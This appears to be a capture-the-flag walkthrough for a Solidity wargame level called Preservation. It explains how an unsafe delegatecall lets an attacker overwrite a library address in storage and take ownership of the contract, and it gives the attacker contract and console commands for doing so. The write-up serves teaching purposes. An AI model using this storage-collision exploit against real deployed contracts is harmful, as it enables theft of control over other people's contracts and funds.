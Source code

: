 # Preservation

## Challenge Description

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

 Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for `delegatecall` to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint storedTime;

    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(
        address _timeZone1LibraryAddress,
        address _timeZone2LibraryAddress
    ) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    function setFirstTime(uint _timeStamp) public {
        timeZone1Library.delegatecall(
            abi.encodePacked(setTimeSignature, _timeStamp)
        );
    }

    function setSecondTime(uint _timeStamp) public {
        timeZone2Library.delegatecall(
            abi.encodePacked(setTimeSignature, _timeStamp)
        );
    }
}

contract LibraryContract {
    uint storedTime;

    function setTime(uint _time) public {
        storedTime = _time;
    }
}
```

## Challenge Solution Walkthrough


To exploit the contract and become the owner, we can take advantage of the delegate call mechanism and manipulate the memory layout. By executing specific functions, we can modify the contract's state and assign ourselves as the owner.

Here's how we can achieve this:

1. Deploy the following `PreservationSolution` contract, which has the same memory layout as the `Preservation` contract and includes a `setTime(uint256)` function that changes the owner:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract PreservationSolution {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256) public {
        owner = tx.origin;
    }
}
```

1. Obtain its address (let's assume it is `0xFd414A1E706dF6F30B8c7F7e1AB298C248cb6dDc`).
2. Call the `setFirstTime()` function on the `Preservation` contract, passing the address of the `PreservationSolution` contract as the input:

```javascript
> await contract.setFirstTime("0xFd414A1E706dF6F30B8c7F7e1AB298C248cb6dDc")
```

This step modifies the memory layout of the `Preservation` contract, assigning the address of `timeZone1Library` to the input address.

4. Call the `setFirstTime()` function on the `Preservation` contract again, passing `"0"` as the input. Since the address of `timeZone1Library` has been changed to our deployed `PreservationSolution` contract, this function will execute the `setTime(uint256)` function of the `PreservationSolution` contract, which changes the owner to `tx.origin` (our address):

```javascript
> await contract.setFirstTime("0")
```

After executing this step, we will become the owner of the `Preservation` contract.

5. To validate the result, execute the following code:

```javascript
> await contract.owner() == player
< true
```

The output should indicate that we are now the owner of the contract. 

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.
